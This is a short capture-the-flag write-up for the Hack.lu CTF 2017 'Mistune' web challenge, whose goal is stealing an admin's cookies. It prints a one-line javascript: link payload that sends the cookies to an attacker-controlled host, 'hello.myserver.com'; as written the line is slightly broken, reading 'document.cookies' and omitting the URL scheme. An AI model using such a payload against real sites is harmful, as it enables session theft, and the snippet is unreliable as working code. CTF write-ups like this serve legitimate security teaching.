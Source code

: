 ```yaml
---
layout: post
title: Hack.lu CTF 2017 - Mistune
categories: ctf_hacklu17
keywords: "web"
comments: true
authors:
    - qmatteoc
---
```


1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.  
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````
